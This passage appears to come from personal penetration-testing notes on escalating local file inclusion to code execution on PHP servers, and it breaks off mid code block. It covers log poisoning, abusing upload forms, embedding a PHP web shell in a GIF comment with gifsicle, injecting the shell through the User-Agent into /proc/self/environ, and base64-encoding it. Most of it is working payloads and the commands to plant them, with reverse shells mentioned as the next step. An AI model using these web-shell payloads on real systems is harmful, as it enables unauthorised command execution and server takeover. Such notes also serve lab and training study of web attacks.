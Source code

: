   4. If you send the email to the www-data user, you should be able to access those logs and include them for LFI

- FTP Logs

  1. Never did this before, but worth a shot

  2. Check the logs

    ```bash
    # Likely locations
    /etc/vsftpd/vsftpd.conf
    /etc/vsftpd.conf
    ```

- File Upload forms

  1. Upload a file with the PHP 'cmd' code below 
  2. Figure out where the file ended up (may need to bruteforce it) 
  3. Use the uploaded for for the LFI

- Image Upload

   -  If a form takes only images, you can insert PHP code into it

      ```bash
      gifsicle --comment "****COYOTE_LOG**** <?php system(\$_GET['cmd']); ?>" < upload_image.gif > upload_image.php.gif
      ```

- Using /proc/self/environ

  1. This method only works on older Linux versions as newer versions deny access to non-root users.  (explanation: 'self' is a pointer to the process itself, so rather than knowing the PID, just use 'self')

  2. Use LFI to list the contents of  /proc/self/environ.  You should see a variable for HTTP_USER_AGENT

  3. Modify your user agent (BurpSuite, Browser Extension, etc)  to this PHP code:

     ```php
     <?php system($_GET['cmd']); ?>
     ```

  4. Using the same URL to list /proc/self/eviron, tag on commands with `&cmd=BASH COMMAND` at the end.  Remember to URL encode the entire URL!  I believe any reverse shell command will work as long as its installed and the command is URL encoded.  

- Direct Inject

  1. Encode a PHP command into Base64

     ```bash
     echo '<?php system($_GET['cmd']); ?>' | base64
     # Spoiler alert, it's: PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=
     